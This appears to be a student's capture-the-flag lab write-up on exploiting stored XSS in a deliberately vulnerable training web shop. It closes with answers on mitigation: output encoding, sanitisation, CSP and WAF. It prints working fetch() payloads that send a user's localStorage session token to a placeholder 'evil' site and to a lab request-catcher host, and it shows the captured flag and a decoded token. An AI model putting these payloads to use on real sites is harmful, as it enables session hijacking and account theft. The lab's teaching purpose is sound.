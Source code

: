 # GlockenEmil 2.0 XSS

## Steps (on my own)

### Step 1 Randomly trying to find XSS vulnerability
Trying to find XSS vulnerabilities with the following script: `<script>alert('hacked')</script>`

- Details > Questions:  not vulnerable (at least with this script)
- Product > Rate: vulnerable, script is executed

(after that I restarted the docker as the alter messages became a bit annyoing)


### Step 2 Try to find how the token is stored
Using developer tools, I find a token stored in "Local storage"  (not in the cookies, not in the session storage, might also be stored somewhere in a javascript variable but didnt look too much there). I wonder if localStorage is the right place for a session token. 

From this I can prepare a script that sends the token: 
`<script type='text/javascript'>fetch('https://myevilsomethingSite/?ttttttt='+encodeURIComponent(localStorage.getItem('token')));</script>
`

### Step 3 Exploit
I use the prepared script to exploit the found XSS vulnerability. (Post the script in the rating site). From now on, every user browsing on that particular rating site will execute the script which will send the token to my evil site. 


<script type='text/javascript'>fetch('https://8bc3385e-a2db-4bdb-b177-0ebfc8d49dce.idocker.vuln.land/?ttttttt='+encodeURIComponent(localStorage.getItem('token')));</script>

Due to CORS not enabled by the request capture site, the GlockenEmil site cannot read the content of 'my' evil request, but from the point of view of the attacker, this doesn't matter as it is still being sent. 


*Remark: from then on, i basically followed the steps described in the task. (wordk a bit better)*

### Step 4 Collecting information 
Informatoin retrieved using this XSS attack for customer0: 

Flag: "3cb593a3-4bc4-4c8e-a11c-c2948ad2ee85"

Token (decoded with the help of JWT site: https://jwt.io/ )
```

{
  "isRetailer": false,
  "_id": "5aa0481e876d9d39d4397859",
  "username": "customer0",
  "firstname": "Juliane",
  "lastname": "Schulze",
  "email": "Juliane.Schulze@gmail.com",
  "iat": 1677868251,
  "aud": "self",
  "iss": "webshop"
}
````


## Security questions


- What is the problem with the vulnerable web shop ?
    - The user input is executed, which should never happen. The (stored) user input that has to be HTML encoded when it is rendered (server + client side) onto the page.
- What is the purpose of the request catcher service?
    - it basically logs ever request to it on the debug site. Here the capture service acts as the evil site, that collects information that is "stolen" from the GlockenEmil service via XSS exploit.  
- How would you mitigate that risk?
    - The following steps can be taken to either eliminate or mitigate the risk: 
        1. HTML encode the user input (this alone would be the solution and eliminate the risk, at least for input rendered into html. HTML encoding has to be implemented accross the entire application and requires descipline and knowledge among the developers)
        2. Sanitize user input
            - user input can be searched for suspicous content (e.g. script tags) and either be requejected or the content being removed. However, there can be false positives. For a site like glockenEmail I would probably not sanitize the input, but rather ensure HTML encoding. (I would probably sanitize in cases when user can enter formated data with an editor that needs to be displayed formatted again. )
        3. Content Security Policy (CSP)
            CSP can reduce or even eliminate XSS vulnerabilities. If inline scripts are not allowed via CSP, this particular attack would not be possible. 
        4. WAF Web application firewall
            - A WAF can scan and reject (or sanizite) suspicious requests. (will it catch all cases? ... and are there false positives??)
